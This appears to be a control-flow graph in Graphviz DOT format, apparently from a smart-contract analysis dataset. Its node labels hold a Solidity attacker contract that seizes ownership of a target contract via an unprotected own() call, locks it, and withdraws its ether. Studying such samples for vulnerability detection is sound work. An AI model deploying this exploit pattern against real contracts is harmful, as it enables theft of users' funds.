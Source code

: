 digraph  {
13 [label="2_ function own(address owner) {}\n13-function_definition-3-3", method="own(address owner)", type_label=function_definition];
20 [label="3_ function releaseFunds(uint amount) {}\n20-function_definition-4-4", method="releaseFunds(uint amount)", type_label=function_definition];
27 [label="4_ function lock() {}\n27-function_definition-5-5", method="lock()", type_label=function_definition];
33 [label="7_ address owner;\n33-new_variable-8-8", method="", type_label=new_variable];
37 [label="8_ HelloEx contr;\n37-new_variable-9-9", method="", type_label=new_variable];
44 [label="11_ owner = msg.sender;\n44-expression_statement-12-12", method="", type_label=expression_statement];
50 [label="13_ function setMyContractt(address addr) public\n	{\n		require(owner==msg.sender);\n		contr = HelloEx(addr);\n	}\n50-function_definition-14-18", method="setMyContractt(address addr)", type_label=function_definition];
58 [label="15_ require(owner==msg.sender);\n58-expression_statement-16-16", method="setMyContractt(address addr)", type_label=expression_statement];
67 [label="16_ contr = HelloEx(addr);\n67-expression_statement-17-17", method="setMyContractt(address addr)", type_label=expression_statement];
74 [label="18_ function eexploitOwnn() payable public\n	{\n		require(owner==msg.sender);\n		contr.own(address(this));\n		contr.lock();\n	}\n74-function_definition-19-24", method="eexploitOwnn()", type_label=function_definition];
79 [label="20_ require(owner==msg.sender);\n79-expression_statement-21-21", method="eexploitOwnn()", type_label=expression_statement];
88 [label="21_ contr.own(address(this));\n88-expression_statement-22-22", method="eexploitOwnn()", type_label=expression_statement];
97 [label="22_ contr.lock();\n97-expression_statement-23-23", method="eexploitOwnn()", type_label=expression_statement];
102 [label="24_ function wwwithdrawww(uint amount) public\n	{\n		require(owner==msg.sender);\n		contr.releaseFunds(amount);\n		msg.sender.transfer(amount * (1 ether));\n	}\n102-function_definition-25-30", method="wwwithdrawww(uint amount)", type_label=function_definition];
110 [label="26_ require(owner==msg.sender);\n110-expression_statement-27-27", method="wwwithdrawww(uint amount)", type_label=expression_statement];
119 [label="27_ contr.releaseFunds(amount);\n119-expression_statement-28-28", method="wwwithdrawww(uint amount)", type_label=expression_statement];
126 [label="28_ msg.sender.transfer(amount * (1 ether));\n126-expression_statement-29-29", method="wwwithdrawww(uint amount)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
33 -> 37  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
50 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
58 -> 67  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
74 -> 79  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
79 -> 88  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
88 -> 97  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
102 -> 110  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
110 -> 119  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
119 -> 126  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
